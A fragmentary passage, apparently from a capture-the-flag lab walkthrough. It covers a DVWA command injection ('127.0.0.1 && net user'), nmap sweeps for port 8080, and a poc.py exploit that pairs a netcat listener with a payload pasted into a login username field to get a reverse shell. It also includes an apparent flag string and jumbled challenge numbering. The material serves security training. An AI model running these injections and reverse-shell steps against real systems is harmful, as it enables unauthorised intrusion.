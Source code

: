command injection in dvwa site

127.0.0.1 && net user

8

Challenge 15

```
nmap -p 8080 172.16.0.0/24

nmap -p 8080 10.10.10.0/24

nmap -p 8080 192.168.0.0/24

```

**Extract and Setup Jdk**

```
tar -xf jdk-8u202-linux-x64.tar.gz

mv jdk1.8.0_202 /usr/bin

```

**Update the JDK Path in the Poc.py file**

{% hint style="info" %} Change Line no: 62, replace jdk1.8.0_20/bin/javac with "/usr/bin/jdk1.8.0_202/bin/javac"

Change Line no: 87, replace jdk1.8.0_20/bin/java with "/usr/bin/jdk1.8.0_202/bin/java"

Change Line no: 99, replace jdk1.8.0_20/bin/java with "/usr/bin/jdk1.8.0_202/bin/java" {% endhint %}

**Create a Netcat Listener**

```
nc -lvp 9001

```

**Create a Payload**

```
python3 poc.py --userip 10.10.1.13 --webport 8080 --lport 9001

```

{% hint style="info" %} Copy the send me payload and paste in the username field and enter any random password and press Login {% endhint %}

Ch@mp2022

---

# Challenge 4
